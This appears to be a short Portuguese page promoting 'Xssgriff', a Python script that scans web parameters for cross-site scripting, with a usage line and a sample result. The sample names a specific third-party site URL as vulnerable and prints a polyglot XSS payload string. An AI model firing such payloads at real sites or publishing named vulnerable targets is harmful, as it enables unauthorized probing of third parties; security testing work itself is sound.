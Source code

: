 Xssgriff, script para analizar vulnerabilidade em XSS.

Modo de uso:
python xss.py 
url : teste.com.br/page?parameter=

URL: http://www.koinonia.org.br/tpdigital/detalhes.asp?cod_artigo=161&cod_boletim=9&tipo=
Vulneravel: ';alert(String.fromCharCode(88,83,83))//';alert(String.fromCharCode(88,83,83))//";alert(String.fromCharCode(88,83,83))//";alert(String.fromCharCode(88,83,83))//--></SCRIPT>">'><SCRIPT>alert(String.fromCharCode(88,83,83))</SCRIPT>


https://www.facebook.com/JRPENTESTER
